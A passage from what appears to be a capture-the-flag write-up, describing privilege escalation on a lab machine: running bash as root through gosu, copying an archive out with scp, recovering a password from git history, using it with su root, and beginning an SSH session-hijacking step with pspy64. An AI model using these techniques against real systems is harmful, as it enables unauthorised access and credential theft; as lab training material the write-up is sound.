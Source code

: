 ```commandline
drwxr-xr-x	4 git  	git       	4096 May 10 13:38 .
drwxr-xr-x	5 git  	git       	4096 Dec 13 13:16 ..
lrwxrwxrwx	1 git  	git          	9 Dec 29 06:42 .bash_history -> /dev/null
-rw-r--r--	1 git  	git         	71 May 10 13:38 .gitconfig
drwx------	2 git  	git       	4096 May 11 22:24 .ssh
drwxr-xr-x	4 git  	git       	4096 Dec 13 13:24 gogs-repositories
```
Eventually, we discover a strange process called gosu:
```commandline
3713ea5e4353:~$ gosu
Usage: gosu user-spec command [args]
   ie: gosu tianon bash
   	gosu nobody:root bash -c 'whoami && id'
   	gosu 1000:1 id

3713ea5e4353:~$ gosu root:root bash -c 'ls -la /root'
total 128
drwx------	1 root 	root      	4096 Dec 29 07:07 .
drwxr-xr-x	1 root 	root      	4096 Dec 13 13:16 ..
lrwxrwxrwx	1 root 	root         	9 Dec 29 06:41 .ash_history -> /dev/null
lrwxrwxrwx	1 root 	root         	9 Dec 29 06:41 .bash_history -> /dev/null
-rw-r--r--	1 root 	root    	117507 Dec 29 06:40 aogiri-app.7z
-rwxr-xr-x	1 root 	root       	179 Dec 16 07:10 session.sh
```

Get that aogiri-app.7z file back to Kali via a bunch of scp commands

## C'mon Git Happy!
* Step 1: Extract the .7z file
* Step 2: browse to the folder
* Step 3: use git reflog to get a full history of the repo
* Step 4: use git diff to compare each branch o the other

Eventually you’ll find a few passwords in the application.properties file:
`7^Grc%C\7xEQ?tb4`

Where to use it? Password all the things!!!!

Turns out `kaneki-pc` is a great spot to use it.

```commandline
kaneki_pub@kaneki-pc:~$ su root
Password:
root@kaneki-pc:/home/kaneki_pub#
```

## Session Hijacking

If you upload pspy64 to the box and run it, you’ll see that kaneki_adm logs in every 6 minutes. You must react quickly to catch the session and hijack it!

https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/

* Step 1: upload pspy64 to kaneki-pc 
* Step 2: get two root connections on 172.18.0.200
* Step 3: as soon as you see this come up in pspy64

